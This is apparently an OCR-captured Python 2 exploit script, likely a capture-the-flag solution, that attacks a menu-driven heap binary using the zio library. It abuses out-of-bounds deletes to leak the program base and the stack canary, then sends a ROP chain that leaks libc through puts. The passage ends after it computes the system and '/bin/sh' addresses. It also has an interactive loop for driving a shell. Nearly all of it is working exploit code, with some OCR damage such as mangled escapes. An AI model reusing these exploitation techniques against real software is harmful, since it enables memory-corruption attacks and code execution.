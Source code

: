 ```
          while True:
            try:
                output =   io.read_until_timeout(timeout=1)
                # print output
            except:
                return
 
      t1 = Thread(target=run_recv)
      t1.start()
      while True:
          d = raw_input()
          if d != '':
            io.writeline(d)
 
 
def exp(target):
      io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), 
             print_write=COLORED(RAW,   'green'))
 
      add1(io, 3, 'bbbb', 100, 'ccccccccc')
      fake_index = (0x2031a0 - 0x203180)/8
      delete(io, 0)
      delete(io, fake_index)
      io.read_until('delete 0')
      show(io, 0)
      io.read_until('s1-&gt;')
      data = io.read_until(' ')[:-1]
      code_base = l64(data.ljust(8, 'x00')) - 0x1040
      print hex(code_base)
 
      canary_addr = code_base + 0x2031c0 + 1
      add2(io, 2, 'aaaa', str(canary_addr&amp;0xffffffff),   str(canary_addr&gt;&gt;32), 'bbbbbbbb')
 
      delete(io, 1)
      delete(io, fake_index + 1)
      io.read_until('delete 1')
      show(io, 1)
      io.read_until("fake show!n")
      cookies = l64(io.read_until('n')[:-1].ljust(8, 'x00')) &lt;&lt; 8
      print 'cookie', hex(cookies)
 
      add1(io, 0, 'cccc',100, '0517')
      io.gdb_hint()
 
      show(io, 2)
      io.read_until('againn')
 
      puts_plt = code_base + 0x0000000000000BC0
      puts_got = code_base + 0x0000000000202F20
      pop_rdi_ret = code_base + 0x0000000000001653
      read_int = code_base + 0x0000000000000F80
      payload = 'a'*0x18 + l64(cookies) + 'aaaaaaaa'*5 + l64(pop_rdi_ret) +   l64(puts_got) + l64(puts_plt) + l64(pop_rdi_ret)+l64(0) + l64(read_int)
 
      io.writeline(payload)
 
      puts = l64(io.readline()[:-1].ljust(8, 'x00'))
      libc_base = puts - 0x000000000006F5D0
 
      print hex(libc_base)
      system = libc_base + 0x0000000000045380
      binsh = libc_base + 0x000000000018C58B
```